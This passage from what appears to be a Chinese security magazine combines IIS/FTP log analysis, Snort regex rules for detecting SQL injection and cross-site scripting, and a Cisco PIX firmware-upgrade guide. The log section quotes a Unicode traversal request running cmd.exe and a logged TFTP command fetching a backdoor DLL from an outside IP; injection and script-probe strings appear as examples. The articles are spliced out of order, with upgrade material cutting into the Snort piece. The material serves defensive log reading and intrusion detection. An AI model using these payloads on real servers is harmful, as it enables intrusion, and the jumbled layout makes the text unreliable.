#Date: 20040419 03:15 （服务启动时间日期）
```

```text
#Fields: time c-ip cs-method cs-uri-stem sc-status
03:15 127.0.0.1 [1] USER administrator 331（IP 地址为 127.0.0.1，用户名为 administrator，试图登录）
03:18 127.0.0.1 [1] PASS 530（登录失败）
03:20:04 127.0.0.1 [1] USER nt 331（IP 地址为 127.0.0.1，用户名为 nt 的用户试图登录）
03:20:06 127.0.0.1 [1] PASS 530（登录失败）
03:20:09 127.0.0.1 [1] USER cyyz 331（IP 地址为 127.0.0.1，用户名为 cyyz 的用户试图登录）
03:22 127.0.0.1 [1] PASS 530（登录失败）
03:22 127.0.0.1 [1] USER administrator 331（IP 地址为 127.0.0.1，用户名为 administrator 试图登录）
03:24 127.0.0.1 [1] PASS 230（登录成功）
03:21 127.0.0.1 [1] MKD nt 550（新建目录失败）
03:25 127.0.0.1 [1] QUIT 550（退出 FTP 程序）
```

从日志里就能看出 IP 地址为 127.0.0.1 的用户一直试图登录系统，换了 4 次用户名和密码才成功，管理员立即就可以得知这个 IP 至少有人入侵企图！而他的入侵时间、IP 地址以及探测的用户名都很清楚地记录在日志上。如上例入侵者最终是用 Administrator 用户名进入的，那么就要考虑此用户名是不是密码失窃，还是被别人利用？接下来就要想想系统出了什么问题了。

### 2．WWW 日志分析

WWW 服务同 FTP 服务一样，产生的日志也是在 `%systemroot%\system32\LogFiles\W3SVC1` 目录下，默认是每天一个日志文件。这里需要特别说明一下，因为 Web 的日志和其他日志不同，它的分析要细致得多，需要管理员有丰富的入侵、防护知识，并且要足够的细心，不然，很容易遗漏那种很简单的日志，而通常这样的日志又是非常关键的。由于我们不可能一一分析，所以这里举个简单例子：

```text
#Software: Microsoft Internet Information Services 5.0
#Version: 1.0
#Date: 20040419 03:09:01
#Fields: date time c-ip cs-username s-ip s-port cs-method cs-uri-stem cs-uri-query sc-status cs(User-Agent)
20040419 03:09:01 192.168.1.26 - 192.168.1.37 80 GET /iisstart.asp - 200 Mozilla/4.0+(compatible;+MSIE+5.0;+Windows+98;+DigExt)
20040419 03:09:04 192.168.1.26 - 192.168.1.37 80 GET /pagerror.gif - 200 Mozilla/4.0+(compatible;+MSIE+5.0;+Windows+98;+DigExt)
```

通过分析第六行，可以看出 2004 年 4 月 19 日，IP 地址为 192.168.1.26 的用户通过访问 IP 地址为 192.168.1.37 机器的 80 端口，查看了一个页面 iisstart.asp，这位用户的浏览器为 compatible;+MSIE+5.0;+Windows+98;+DigExt，有经验的管理员就可通过安全日志、FTP 日志和 WWW 日志来确定入侵者的 IP 地址以及入侵时间。

对现在非常常见的 SQL 注入式攻击，通过对 PUT、GET 的检查，也可以大致判断是哪个页面出了问题，从而进行修补。

### 3．HTTPD 事务日志的分析

Microsoft 的 IIS 5 自公布到现在，被黑客利用的漏洞多不胜数，像 .ida/.idq、unicode、WebDavx3 和一些未知的漏洞，我们分析日志的目的就是为了分析黑客入侵的行为，对于没有打好补丁包的系统被黑客成功入侵的日志记录分别对应如下。为了给大家介绍一个比较醒目的例子，专门配置了个“古老”的服务器，用旧漏洞给大家做个演示，很容易触类旁通。

#### （1）unicode 漏洞入侵日志记录

这个是个非常经典的漏洞了，要找这样的服务器估计得去国外慢慢找了，但是因为它的日志是最经典的一个，所以我们这里特别拿它来做个示范。

我们打开 IIS 5 的 Web 服务的日志文件，日志文件默认位置在 `%systemroot%\system32\LogFiles\` 文件夹下，如图 1 所示是一个典型的 Unicode 漏洞入侵行为的日志记录。对于正常的 Web 访问，是通过 80 端口用 GET 命令获取 Web 数据，但通过非法的字符编码可绕过字符验证而得到不应该得到的信息。但补上相应的补丁可堵上此漏洞。如图 1 所示。


我们配合入侵来看这样的记录：通过下面的编码，我们在入侵的时候可以查看目标机的目录文件：

```text
GET /_vti_bin/..%5c../..%5c../..%5c../winnt/system32/cmd.exe?/c+dir 200
```

则日志中会记录下此访问行为：

```text
2004-04-19 08:47:47 192.168.0.1 - 192.168.0.218 80 GET /_vti_bin/..%5c../..%5c../..%5c../winnt/system32/cmd.exe /c+dir 200 -
```

看到了吗？我们的日志中记录得一清二楚。来自 192.168.0.1 的攻击者查看我们的目录。下面一行是向我们的机器传送后门程序的日志记录：

```text
2004-04-19 08:47:47 192.168.0.1 - 192.168.0.218 80 GET /_vti_bin/..%5c../..%5c../..%5c../winnt/system32/cmd.exe /c+TFTP%20-i%2061.48.10.129%20GET%20cool.dll%20c:\httpdcbc.dll 502
```

看到了吧？记录非常详细，系统里面哪个程序在响应都记录了下来，这样我们分析入侵行为就好办了。

#### （2）WebDavx3 远程溢出日志记录

过去一段时间有名的 WebDavx3 漏洞是应用最广泛的，如果系统遭受了此远程溢出的攻击行为，则日志记录如图 2 所示。


```text
2004-04-19 07:20:13 192.168.0.218 - 192.168.0.218 80 LOCK /AAAAA......
```

这表示我们的 Web 服务受到了来自 192.168.0.218 的攻击，并锁定（即关闭了）了 Web 服务，后面的一些乱码字符是在溢出攻击时使用的偏移猜测过程。

上面的几种日志都记录了有入侵行为的 IP 地址，但此 IP 地址说不定就是攻击者使用了跳板，也就是说此 IP 很可能是“肉鸡”而不是攻击者的 IP。遇到这样的情况，我们再查看其他日志文件，还是有可能追查出攻击者的位置的，但这个就完全靠管理员的经验了。

### 4．日志文件的移位保护

通过上面的几个方法，大家应该可以检测普通的系统攻击了，但话说回来，如果上面的攻击任何一个成功了，那现在我们都看不到日志了，它早被入侵者清空。所以，为了防患于未然，我们还是针对常见的删除日志的方法，把日志挪挪吧。

好多文章介绍对事件日志移位能做到对系统很好的保护，移位虽是一种保护方法，但只要在命令行输入 `dir c:\*.evt /s`，一下就可查找到事件日志位置，再删除可容易了。那怎么办呢？其实，日志移位要通过修改注册表来完成，找到注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog` 下面的 Application、Security、System 几个子键，分别对应“应用程序日志”、“安全日志”、“系统日志”。如何修改呢？下面我们具体来看看 Application 子键：File 项就是“应用程序日志”文件存放的位置，把此键值改为要存放日志文件的文件夹。

我们再把 `%systemroot%\system32\config\appevent.evt` 文件拷贝到此文件夹，再重启机器就可以了。

在此介绍移位的目的是为了充分利用 Windows 2000 在 NTFS 格式下的“安全”属性，如果不移位也无法对文件进行安全设置操作，右击移位后的“文件夹”选择“属性”，进入“安全”选项卡，不选择“允许将来自父系的可继承权限传播给该对象”，添加 “System” 组，分别给 Everyone 组“读取”权限、System 组选择除“完全控制”和“修改”的权限。然后再将系统默认的日志文件 512KB 大小改为你所想要的大小，如 20MB。进行了上面的设置后，直接通过 `Del C:\*.Evt /s /q` 来删除是删不掉的，相对要安全多了。

通过上面的几个实际的例子，相信大家都应该具备分析普通入侵日志的能力了，再结合一定的实际经验，通过日志来发现系统漏洞、追踪入侵者就简单很多了。希望此文能抛砖引玉，给大家带来一些帮助。

# 用 Snort 巧妙检测 SQL 注入和跨站脚本攻击

文／单长虹

脚本攻击是最近网络上最疯狂的攻击方法了，很多服务器配置了先进的硬件防火墙、多层次的安全体系，可惜最后对 80 端口的 SQL 注入和跨站脚本攻击还是没有办法抵御，只能看着数据被恶意入侵者改得面目全非而毫无办法——把你的 Snort 武装起来吧，用它来检测这样的攻击！

我们将以使用开放源代码的入侵检测系统 IDS 为例，编写基于规则的正则表达式来对这类攻击进行监测。这里顺便提一下，在 Snort 中默认的规则设置包含了检测跨站脚本的关键字，是不是会产生冲突呢？不用担心，这种冲突我们还是有办法解决的，我们可以将它们用 ASCII 码的 16 进制形式表示出来。例如，在 Snort 和脚本中都存在的关键字 `<script>`，我们就可以用 `%3C%73%63%72%69%70%74%3E` 来代替。

本文中，我们将就使用 Snort 对 Perl 中的字符串进行检测为例，做一详细介绍。不熟悉 Perl 的读者，可要回头将 Perl 中的正则表达式部分仔细阅读一下了。

如果你想对每一种可能的 SQL 注入进行检测，那么你只要检查任何 SQL 元字符的出现，如像单引号（'）、分号（;）和双减号（--）。同样，一个监测跨站脚本攻击的很偏执的方法，就是查看 HTML 标记的尖括号（<、>）。但是，前述的方法可能会引起大量的误检。为了避免误检，我们就必须将过滤规则设置得尽可能地准确。

### 1．针对 SQL 注入的正则表达式

在为 SQL 注入选择正则表达式的时候，需要记住的是：攻击者除了可以从 Cookie 的域中进行攻击之外，还可以通过表单（Form）的 Input 输入框。所以，你在对输入进行逻辑验证的时候，还应该对来自用户的每种输入信息都要考虑到，像表单域和 Cookie 信息都应该作为怀疑的对象。同样的，如果你发现许多针对单引号和分号的报警的时候，也可能是因为是由 Web 应用的 Cookie 中的信息引起的。因此，必须对特定的 Web 应用来评估这样的特殊符号。

如前所述，一个用来检测 SQL 注入攻击的最弱的正则表达式，就是通过检查上面提到的元字符（'；--）。要检测这样的元字符，或者它们的 16 进制的等价表示，我们可以使用如下的正则表达式：

```perl
/(\%27)|(\')|(\-\-)|(\%23)|(#)/ix
```

这里，%27 是单引号的 16 进制值，%23 是 `#` 的 16 进制值。像单引号和短横杠都是 MS SQL Server 和 Oracle 中的特殊字符，如果我们使用的是 MySQL，还必须检测 `#` 的出现。这里需要说明的就是 `--`，不需要检查它的 16 进制值，因为它不是 HTML 元字符，不会被浏览器编码。同样的，如果攻击者试图手动修改 `--` 为它的 16 进制值 `%2D` 的话，SQL 注入操作就会失败。为了照顾一下不熟悉 Perl 的同志，接下来我将上面的这个正则表达式简要解释一下：`//` 是 Perl 中用来引起要进行模式匹配的代码，其完整形式为 `m//`，通常，我们在使用双斜杠引起模式匹配代码的时候，可以将 `m` 省略不写。符号 `|` 是或的作用，如同在其他语言中 `or` 的通常意义。这里的小括号是为了更容易让读者看明白的情况下而写出来的，完全可以不用。第二个 `/` 后面的 `i` 表示对要匹配的字母不区分大小写，后面的 `x` 表示忽略模式中的空白。

我们可以将上面的这个表达式添加到 Snort 的规则里去：

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"SQL Injection -- Paranoia"; flow:to_server,established; uricontent:".pl"; pcre:"/(\%27)|(\')|(\-\-)|(\%23)|(#)/ix"; classtype:web-application-attack; sid:9099; rev:5;)
```

在这个例子里面，`uricontent` 关键字部分我们使用了 `.pl`，因为在我们的测试环境中，我们的 CGI 脚本是使用 Perl 写成的，这部分内容取决于你的特定应用，可能是 `.php`、`.asp`、`.jsp` 等。`pcre` 关键字的内容，就是将要对 `.pl` 文件进行检查的模式。你可以从这个正则表达式受到启发，以便写出更多的 Snort 规则。

SQL 查询中还有可能在 Where 语句中包含纯数字，像这样：

```sql
select value1, value2, num_value3 from database where num_value3=some_user_supplied_number
```

在这个例子中，攻击者可能执行一条附加的 SQL 查询语句，像这样就可以：

```sql
3; insert values into some_other_table
```

上面的那条 Snort 规则可以扩展一下，用来过滤分号（`;`）的出现。然而，分号也可能出现在正常的 HTTP 交互中。为了减少误检，上面的规则可以修改为从等号（`=`）之后的部分进行匹配。当用户使用 GET 或者 POST 作请求时，输入域一般会像这样出现：

```text
username=some_user_supplied_value&password=some_user_supplied_value
```

因此，对用户的 SQL 注入尝试的检测可以从等号（`=`）或者它的 16 进制值开始检测，修改后的 SQL 元字符检测的正则表达式如下：

```perl
/((\%3D)|(=))[^\n]*((\%27)|(\')|(\-\-)|(\%3B)|(;))/ix
```

这个规则首先检查等号（`=`）或者它的 16 进制 `%3D`。接下来，`[^\n]*` 的含义就是匹配零个或者多个非换行符字符，其中，`\n` 是 Perl 中的换行符，`^` 是排除符号，也就是说非换行符，`*` 的含义就是对它前面的字符进行零次或者多次匹配。接下来的部分，跟前面没有什么不同了。

一个典型的 SQL 注入尝试过程，通常会围绕着单引号来制造一个查询，来看一下返回的结果正确与否，从而确定是否存在 SQL 注入漏洞。大多数的例子都是使用了字符串 `'or'1'='1`。然而，要对这类字符串进行检测可不是件容易的事情，因为攻击者可以轻易地构造出一些具有等价作用的字符串，如 `1'or2>1--`。这样，唯一不变的部分也就剩下了一个常数和接下来的字符串 `or` 了。对于这类攻击，我们可以构造如下的正则表达式来进行检测，典型的 SQL 注入攻击的正则表达式如下：

```perl
/\w*((\%27)|(\'))((\%6F)|o|(\%4F))((\%72)|r|(\%52))/ix
```

`\w`（注意，这里的 `w` 是小写的，Perl 中的用于模式匹配的 `\w` 和 `\W` 意义截然不同）指的是大小写字母或者数字，加了 `*` 之后的意义就是用来匹配一个或者多个数字或者字母。`(\%27)|(\')` 用来匹配单引号或者它的 16 进制值。`(\%6F)|o|(\%4F)|((\%72)|r|(\%52))`，`%6F` 和 `%4F` 分别为字母 `o` 的小大写 16 进制值，`%72` 和 `%52` 分别为字母 `r` 的小大写 16 进制值。因为使用的 `i` 选项，所以没有必要将字母 `o` 和 `r` 的大小写形式都写出来。这样，单词 `or` 的各种形式，我们都已经考虑到了。

同样的，在 SQL 注入中，我们也经常会用到 `union` 关键字，我们可以如下设置规则，针对 UNION 关键字的 SQL 注入的检测的正则表达式：```
regex
/((\%27)|(\'))union/ix
```

有了上面的基础，这句规则就不需要多作解释了。对于同样会经常碰到的 select、insert、update、delete、drop 等语句，我们可以举一反三，灵活运用规则进行设置。

在 SQL 注入中，我们为了使得 SQL 服务器返回错误，然后通过错误来获得有用的信息，经常会出现诸如 1=(select name from student where sno='200021') 这样的子查询语句。这个子查询语句返回的值是字符类型，而 1 是数字，这时候就会有错误爆出，从而泄漏了 name 字段的内容。这样就引出了，我们必须能够对这种常见的注入进行监测。对于这类攻击，我们不能够从 1 开始做限制，因为这样可能导致大量的误检，显然，解决方法就是对 select 关键字进行监测，因为 URL 中提交的信息，正常情况下是不会包含 select 关键字的。

### 2.5 对 1=(select name from student where sno='200021') 类似的查询进行监测的正则表达式

```
regex
/((\%27)|(\'))select/ix
```

在 MS SQL Server 中，经常被利用的还有扩展存储过程 xp_cmdshell、xp_regread、xp_regwrite 等。这类存储过程在调用的时候，都要使用到 exec 关键字。另外，系统的存储过程通常都是以 sp 或者 xp 开头的，所以，我们针对这类 SQL 注入，可以如下配置正则表达式。针对 MS SQL Server 的 SQL 注入进行检测的正则表达式：

```
regex
/exec(\s|\+)+(s|x)p.\w+/ix
```

exec 为调用存储过程的关键字。(\s|\+) 代表空格或者它的 HTTP 编码的等价替换。+ 用于使前面的和后面的字符至少匹配一次，这样，(\s|\+)+(s|x) 的意思就是使空格和 s 与 x 中的一个进行至少一次的匹配。\w+ 在前面已经解释过了，这里不多说了。

上面，我们仅仅是对 SQL 注入的一些最基本的方法进行监测，但是，熟悉 SQL 注入的人都知道，SQL 注入中用的方法还有很多，我们在这里不可能一一写到，所以请读者体谅。

## 2. 针对跨站脚本攻击的正则表达式

在发动一次跨站脚本攻击之前，为了测试网站的漏洞，攻击者通常要做一个简单的 HTML 测试，这可能要涉及到 HTML 中的 tag，像 `<b>`、`<i>`、`<u>` 等。同样的，也可以使用一个简单的脚本，如 `<script>alert("OK")</script>`。这可能是因为大多数关于 CSS 的讨论文档，都是使用了这样一个简单的脚本例子来判断一个站点是否可以进行 CSS 攻击。这类尝试，我们可以通过 Snort 进行检测。一些高级一些的入侵者可能会使用变换的方式进行测试，如将其对应的 16 进制值进行等价替换，如 `<script>` 可以使用 `%3C%73%63%72%69%70%74%3E` 进行替换。

下面的这个正则表达式就可以针对这类攻击进行检测。它将捕获使用 `<b>`、`<u>` 或者 `<script>` 的尝试，这个正则表达式也是不区分大小写的。我们必须对尖括号的符号和它的 16 进制值都进行匹配，左尖括号 `<` 的 16 进制值为 `%3C`，右尖括号 `>` 的 16 进制值为 `%3E`。简单 CSS 攻击的正则表达式：

```
regex
/((\%3C)|<)((\%2F)|\/)*[a-z0-9\%]+((\%3E)|>)/ix
```

((\%3C)|<) 是对左尖括号进行检测。((\%2F)|\/)* 对表示 tag 标志结束的斜杠或者 16 进制值进行匹配。[a-z0-9\%]+ 对一个以上的小写字母或者阿拉伯数字进行匹配。((\%3E)|>) 对右尖括号或者它的 16 进制值进行匹配。再将这个写成 Snort 规则就成了：

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"NII Cross-site scripting attempt"; flow:to_server,established; pcre:"/((\%3C)|<)((\%2F)|\/)*[a-z0-9\%]+((\%3E)|>)/i"; classtype:Web-application-attack; sid:9003; rev:5;)
```

跨站脚本也可以通过使用 `` 技术来实现，对于这一类攻击，我们可以这样配置，来使得 CSS 攻击不容易实现。针对 `` 的 CSS 攻击的正则表达式：

```
regex
/((\%3C)|<)((\%69)|i|(\%49))((\%6D)|m|(\%4D))((\%67)|g|(\%47))[^\n]+((\%3E)|>)/i
```

左右尖括号不再解释。((\%69)|i|(\%49))、((\%6D)|m|(\%4D))、((\%67)|g|(\%47)) 是针对 img 的匹配。[^\n]+ 在前面也已经说过了。还有一种最偏执的针对 CSS 攻击的正则表达式：

```
regex
/((\%3C)|<)[^\n]+((\%3E)|>)/i
```

这个正则表达式采用了最“恶毒”的办法，就是将所有出现 `<>` 的地方全都认为是 CSS 攻击，够毒吧，呵呵！但是，这种方法最容易引起误检，但是它却实实在在地能够有效防止 CSS 攻击。

从某种程度上来说，跨站脚本攻击似乎更好控制一些，其实不然，经常关注黑防的读者自有深刻的体会，我就不多说了。

刘流：Cisco 公司的 PIX 防火墙是在网络上广泛使用的硬件防火墙，它有效地保护了企业的网络安全。在工程技术实践中，随着网络技术的发展，相关安全产品的内核升级成了工程技术人员必须面对的问题。由于该系列的防火墙不同软件版本的升级方法和步骤不尽相同，为方便工程技术人员的工作实践，本文详细介绍了该系列防火墙的不同版本软件、热备份系统以及激活码的升级方法和步骤，希望能有助于大家的实践工作。

# Cisco PIX 防火墙软件升级

文／汤旭蓉

在进行 Cisco PIX 防火墙升级前，我们先来看需要做什么准备工作：

- 1. 用 write 命令将 PIX 防火墙当前的配置保存到文本文件或 TFTP 服务器。
- 2. 用 show version 命令查看当前的 PIX 防火墙序列号和激活码的值，以便在需要恢复到以前的 PIX 软件版本时用到这些参数。

本文适合的 PIX 硬件类型如下：

- 早期的 PIX、PIX10000、501、506、515、520、525 和 535
- PIX 软件版本 4.4、5.0、5.1、5.2、5.3、6.0、6.1、6.2 和 6.3
- 以下是升级软件的最小系统需求：
  - PIX 软件版本 4.4(x) - 2 MB Flash；16 MB RAM
  - PIX 软件版本 5.0(x) - 2 MB Flash；32 MB RAM
  - PIX 软件版本 5.1(x) - 2 MB Flash；32 MB RAM
  - PIX 软件版本 5.2(x) - 8 MB Flash；32 MB RAM
  - PIX 软件版本 5.3(x) - 8 MB Flash；32 MB RAM
  - PIX 软件版本 6.0(x) - 8 MB Flash；32 MB RAM
  - PIX 软件版本 6.1(x) - 8 MB Flash；32 MB RAM
  - PIX 软件版本 6.2(x) - 8 MB Flash；32 MB RAM
  - PIX 软件版本 6.3(x) - 32 MB RAM（不包括 Cisco PIX 501 安全工具，它需要 16 MB RAM），16 MB Flash（不包括 Cisco PIX 501、506 和 506E 安全工具模块，它需要 8 MB Flash）

根据下表中列出的 PIX 防火墙模块类型和当前的软件版本，选择对应的升级方法。

## 3. 自己动手编写规则

当编写 Snort 规则时，首先考虑的是效率和速度。好的规则要包含 content 选项。2.0 版本以后，Snort 改变了检测引擎的工作方式，在第一阶段就做一个集合模式匹配。一个 content 选项越长，这个匹配就越精确。如果一条规则不包含 content 选项，它们将使整个系统慢下来。

当编写规则时，尽量要把目标定位在攻击的地方（例如，将目标定位在 1025 的偏移量等等），而不仅仅是泛泛地指定（如“在这匹配脚本代码”）。Content 规则是大小写敏感的（除非你使用了 nocase 选项）。不要忘记 content 是大小写敏感的，而大多数程序的命令都是大写字母。FTP 就是一个很好的例子。考虑如下的规则：

```
alert tcp any any -> 192.168.1.0/24 21 (content: "user root"; msg: "FTP root login";)
alert tcp any any -> 192.168.1.0/24 21 (content: "USER root"; msg: "FTP root login";)
```

上面的第二条规则能检测出大多数自动以 Root 登录的尝试，而第一条规则就不行。Internet 守护进程在接受输入时是很随便的。在编写规则时，很好地理解协议规范将降低错过攻击的机会。

## 4. 结论

本文中，我们给出了各种各样的针对 SQL 注入和跨站脚本攻击的正规表达式。虽然有一些是很偏执和粗暴的，因为即使有一点发起攻击的企图，这样的正规表达式都会引起 Snort 的报警。这样的一些偏执的正规表达式最容易引起误检，为了尽量减少这样的误检，我们要尽量精确设置正规表达式。同时，我们前面介绍的方法也只是针对现在比较常见的攻击做出的检测，黑客的对抗技术中，总是此起彼长，“道高一尺，魔高一丈”，当我们发现了新的入侵方法时，要对某些规则做出适当的调整甚至添加新的规则，才能够适应新的安全要求。这点相信各位早都深有体会了，本文结合我的一点理解写出，希望和大家共同学习。

| PIX 模块 | 4.4(x) 或更早，5.0(x) | 5.1(x) | 5.2(x) | 5.3(x) | 6.0(x) | 6.1(x)、6.2(x)、6.3(x) |
|---|---|---|---|---|---|---|
| PIX 早期 | 启动帮助器 | copy tftp flash | copy tftp flash | copy tftp flash | 不再生产 | 不再生产 |
| PIX 10000 | 启动帮助器 | copy tftp flash | copy tftp flash | copy tftp flash | 不再生产 | 不再生产 |
| PIX 501 | 不适用 | 不适用 | 不适用 | 不适用 | 不适用 | copy tftp flash |
| PIX 506 | 不适用 | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash |
| PIX 510 | 启动帮助器 | copy tftp flash | copy tftp flash | copy tftp flash | 不再生产 | 不再生产 |
| PIX 515 | 监控器 | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash |
| PIX 520 | 启动帮助器 | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash |
| PIX 525 | 不适用 | 不适用 | copy tftp flash | copy tftp flash | copy tftp flash | copy tftp flash |
| PIX 535 | 不适用 | 不适用 | 不适用 | copy tftp flash | copy tftp flash | copy tftp flash |

注意：早期的 PIX、PIX10000 和 PIX510 系列防火墙已经不再生产，不支持运行 PIX 防火墙 6.0 版以后的软件。对于有以上型号而又想用 6.0 以上版本软件的用户，请和当地的经销商联系更换新的防火墙产品。注册用户可以到 Cisco 软件下载中心下载 PIX 软件，Cisco 公司不再提供 TFTP 服务器的下载。用户可以在网络上其他的站点找到 TFTP 工具。

## 从 4.x.x 或 5.0.x 版本升级 PIX 防火墙

注意：以下的升级步骤适合早期的 PIX、PIX10000、510、520 系列。从 4.4 或 5.1 版本升级 PIX515，请按以下步骤操作：

- 1. 创建一张启动盘。
- 2. 按以下步骤从引导或从监控模式升级 PIX 防火墙。
  - 在 Microsoft Windows 环境下创建一张启动盘。
  - 在 Cisco 公司下载中心下载 `rawrite.exe` 应用程序，用来往软盘上写 PIX 的二进制镜像文件。
  - 下载相应的 PIX 二进制镜像文件，文件的格式一般是 `pixnnx.bin`，其中，`nn` 是版本号，`x` 是发行号。例如，文件 `pix611.bin` 是 PIX 软件发行 6.1.1 版。
- 3. 如果是升级 5.2 或以后的版本，则需要同时下载和版本相对应的引导帮助器文件。例如：如果从 PIX4.4(8) 升级到 6.1(1)，则需要下载 3 个文件：`rawrite.exe`、`pix611.bin`、`bh61.bin`。
- 4. 将以上文件释放到一张空白的 1.44M 软盘上。
- 5. 用引导盘启动计算机，并在 DOS 提示符下切换到存有 `rawrite.exe` 程序和 PIX 文件的目录。

> 刘流：请不要使用 PIX 原厂带的引导盘，它是用来恢复到出厂时的软件版本的。`rawrite.exe` 程序将删除软盘上所有的文件。如果是在 Windows 环境下格式化软盘，请选择常规模式，而不是快速格式化，快速格式化没有完全处理软盘，不适合 `rawrite.exe` 程序。最好的格式化软盘的方法是在 MS-DOS 模式下键入 `format a:` 命令。在格式化完成以后再执行 `rawrite.exe` 文件，然后，按提示输入源 `.bin` 文件和目标文件。

- 6. 在 DOS 提示符下输入 `rawrite` 运行 `rawrite.exe` 程序，按提示依次输入要写入软盘的文件名。以下是在 DOS 环境下创建引导软盘的例子：

```
1. C:\>rawrite
2. RaWrite 1.2 - Write disk file to raw floppy diskette
3. Enter source file name: bh61.bin
4. Enter destination drive: a:
5. Please insert a formatted diskette into drive A: and press --ENTER-- :
6. Number of sectors per track for this disk is 18.
7. Writing image to drive A:. Press ^C to abort.
8. Track: 11 Head: 1 Sector: 16
9. Done
10. C:\>
```

- 7. 当 `rawrite` 程序执行完以后，取出软盘，并将其插入 PIX 防火墙软盘驱动器，用以下方法之一使 PIX 从软盘驱动器引导来读取二进制文件。
  - 重新加电。
  - 按下 PIX 的 `reset` 键。
  - 在 PIX 的控制台输入 `reload` 命令。
- 8. 当 PIX 完成了重启，按以下步骤执行：
  - 如果是升级到 PIX5.1 或更早，从驱动器取出软盘，升级完成。
  - 如果是升级到 PIX5.2 以后版本，升级程序将执行软盘上的启动帮助文件，PIX 将进入启动帮助模式，升级将在启动帮助模式或监控模式下完成升级。
  - 进入 PIX501、506、515、525 或 535 的监控模式的方法：
    - 1. 新加电或重新启动 PIX，在引导阶段出现按 `Break` 或 `Esc` 来中断 Flash 引导时按提示操作即可，有 10 秒的时间来中断常规的引导模式。
    - 2. 按住 `Esc` 或发送 `Break` 字符进入监控模式。

如果是用 Windows 超级终端，可以通过按 `Esc` 或通过按下 `Ctrl+Break` 键来发送 `Break` 字符。

- 3. 操作成功将出现 `monitor>` 提示符，继续在引导模式或监控模式下升级 PIX 防火墙。

如果是把 PIX 防火墙 5.0.x 或更早版本升级到 5.1.x 或更高版本，则需要在引导帮助或监控模式下进行升级。这是因为在 5.1 版本以前的 PIX 防火墙没有提供直接把镜像文件通过 TFTP 方式直接写进系统闪存的方法。从 5.1 版本的 PIX 防火墙开始，才提供 `copy tftp flash` 命令的方法，将新的镜像文件直接拷贝到 PIX 的闪存中去。

**注意：**如果你想修改 PIX 防火墙的激活码（以便增加一些附加功能），则必须用引导帮助或监控模式来安装，而不能使用 `copy tftp flash` 方法来修改 PIX 防火墙的激活码。修改方法如下：

- 1. 将 PIX 防火墙的二进制文件（`pixnn.bin`）放到 TFTP 服务器的根目录。
- 2. 对早期 PIX、10000、510 和 520 使用创建引导磁盘的方法。使用的引导帮助器文件和要升级的 PIX 镜像文件版本一致。通过引导帮助器软盘启动 PIX 以进入引导帮助器模式。

其他的 PIX 产品（501、506、515、525 和 535）都没有安装软盘驱动器，但是它们都带有一个内部引导监控模式。请参阅进入 PIX501、506、515、525 和 535 监控模式的操作步骤。一旦进入监控或引导帮助器模式，用户能通过键入 `?` 键查看可用的选项。

键入 `interface number` 命令，`interface` 命令指明 TFTP 服务器是通过哪个接口连接出去的。默认的接口是 interface 1（内部）。

**注意：**PIX 防火墙不能从监控器或引导帮助器模式初始化吉比特以太网口，而是用快速以太网或令牌环接口代替。

- 1. 输入 `address pix_interface_ip_address`，其中 `address` 命令指明 PIX 防火墙单元接口的 IP 地址。
- 2. 输入 `server TFTP_server_ip_address`，其中 `server` 命令指明 TFTP 服务器的 IP 地址。
- 3. 输入 `file filename`，`file` 命令指明 PIX 防火墙镜像文件的文件名。
- 4. 输入 `ping TFTP_server_ip_address`，检查到 TFTP 服务器是否可达。如果这个命令不能返回成功值，请检查你的电缆、TFTP 服务器的 IP 地址、网关的 IP 地址（如果需要）。在继续下一步操作前，Ping 命令必须成功。

**注意：**使用 `gateway` 命令来指定路由器网关的 IP 地址，以使 TFTP 服务器能通过它被访问到。`Gateway ip_address` 是指网关地址。

- 1. 输入 `tftp` 来启动从 TFTP 服务器下载镜像文件。
- 2. 当下载完成以后，系统会提示安装新的镜像文件，输入 `y` 确认安装镜像文件到闪存。
- 3. 当提示输入新的激活码时，输入 `y`，如果你想输入新的激活码；或者输入 `n` 保留当前的激活码。
- 4. 如果使用引导帮助器模式，系统会提示您取走引导帮助器软盘。在 PIX 自动重启前有 30 秒钟的时间来等待用户取走软盘。请取走软盘。一旦 PIX 重启，它将从闪存中载入新的镜像文件。至此，升级过程完成。

一旦 PIX 已经升级到 5.1 或更高版本，就不再需要使用软盘来载入新的镜像文件到 PIX 了。从版本 5.1 开始，可以使用 `copy tftp flash` 命令直接从 TFTP 服务器里载入 PIX 镜像文件到 PIX。以下是一个使用引导帮助器或监控模式升级 PIX 防火墙的例子。（详细命令请看光盘“杂志相关”栏目。）

## 从 5.1.1 或以后版本升级 PIX 防火墙

如果 PIX 防火墙运行的软件是 PIX 5.1.1 或以后版本，用户可以通过使用 `copy tftp flash` 命令从 TFTP 服务器下载软件镜像文件，任何使用 5.1.1 或以后版本的 PIX 防火墙都可以使用 `copy tftp flash` 命令来升级软件。在下次 PIX 防火墙启动时，将载入新的镜像文件。

**注意：**如果要输入新的激活码到 PIX 防火墙，用户需要使用从引导帮助器或监控模式的方式来升级。下面我们一起来看看如何使用 `copy tftp flash` 命令来升级 PIX：

- 1. 将 PIX 防火墙的二进制文件（`pixnnn.bin`）拷贝到 TFTP 服务器的根目录。
- 2. 在 PIX 的提示符下，执行 `copy tftp flash` 命令。
- 3. 输入远程主机的 IP 地址。
- 4. 输入 PIX 二进制文件名（`pixnn.bin` 格式）。
- 5. 输入 `Yes`。

以下是使用 `copy tftp flash` 命令升级 PIX 防火墙的一个例子：```text
pixfirewall# copy TFTP flash
Address or name of remote host [127.0.0.1]? 172.18.125.3
Source file name [cdisk]? pix611.bin
copying TFTP://172.18.125.3/pix611.bin to flash
[yes|no|again]? yes
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
Received 2562048 bytes.
Erasing current image.
Writing 2469944 bytes of image.
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
Image installed.
pixfirewall#
```

